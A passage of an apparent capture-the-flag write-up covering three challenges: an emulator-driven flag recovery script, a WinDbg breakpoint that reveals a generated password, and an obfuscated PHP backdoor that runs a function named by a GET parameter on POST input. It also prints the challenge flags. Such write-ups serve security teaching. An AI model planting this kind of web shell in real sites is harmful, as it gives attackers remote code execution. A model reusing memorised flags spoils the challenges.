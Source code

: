 ```python=
        step2_emu.e_start(b'\x08\x00\x07\x08\x00\x00\x01d\t\x00\x00\x00\x014\t\x00\x073\x07\x01\x073\x08\x00\x00\x00\x01e\t\x00\x00\x00\x08\x00\x07c\x00\x00\x01\x00\t\x00\x00\x00\x074\x08\x00\x01\x00\t\x00\x06\x00\x01e\t\x00\x06\x00\x07Z\x08\x00\x01\x00\t\x00\x07h\x00\x00\x08\x00\x01\x00\t\x00\x06\x00\x07S\x08\x00\x01\x00\t\x00\x06\x00\x07_\x08\x00\x01\x00\t\x00\x06\x00\x07G\x08\x00\x01\x00\t\x00\x00\x00\x01j\t\x00\x00\x00\x01j\t\x00\x00\x00\x01j\t\x00\x00\x00\x01j\t\x00\x00\x00\x01j\t\x00\x00\x00\x01j\t\x00\x00\x00\x01j\t\x00\x00\x00\x01j\t\x00\x00\x00\x01C\t\x00\x06\x00\x07\x00\x07\x01\x00\x00\x07\x02\x00\x00\x07\x03\x00\x00\x07\x04\x00\x00\x07\x05\x00\x00\x07\x06\x00\x00\x07\x07\x00\x00\x07\x08\x00\x00\x07\t\x00\x00\x07\n\x00\x00\x07\x0b\x00\x00\x07\x0c\x00\x00\x07\r\x00\x00\x07\x04\x00\x00\x08\x00\x01\x00\t\x00\x06\x00\x01w\t\x00\x06\x00\x010\t\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x07\x13\x00\x00\x01\x00\t\x00')

        if run_len_f< step2_emu.run_numlen and step2_emu.t_flag==0:
                run_len_f = step2_emu.run_numlen
                payload = chr(i+33)
                s_tail = payload + s_tail

print(s_head + s_tail)
```
flag:FLAG{W0w_BiiiiiiiiG_SiZe3e3!}
## Winmagic
- Using Windbg open the executable file and loading the pdb file with command: 
.sympath　srv*　https://msdl.microsoft.com/download/symbols;D:\pdbpath\Winmagic.pdb
reload /f
The pdb file must be renamed as Winmagic which the same as the module name in executable file.
- After reading the source code,we can get flag only when we enter the same password which is generated randomly. So I set a breakpoint at 
00007ff6`37621f84(address)
mov     dword ptr [rsp+60h],eax
using command 'bp 00007ff6`37621f84'.
Checking the eax register value we can know what password we should input.
flag:FLAG{WinDbg_is_very_important_in_windows_security}

## Open my backd00r
- Analyze the source code below:
```
<?php
set_time_limit(3);
ini_set('max_execution_time', 3);
highlight_file(__FILE__);$f=file(__FILE__);

$c=chr(substr_count($f[1],chr(32)));
$x=(substr($_GET[87],0,4)^"d00r");$x(${"_\x50\x4f\x53\x54"}{$c});
```
We know $f is the current webpage source itself.

The varable $c is a character which ascii code is the count of the 'space' in the second section(section split by tag '< /br>') of page.We could use ctrl+u to check it. 
In source code the space is '&nbsp' and There are 35 &nbsp totally,so the $c represent a character '#'.
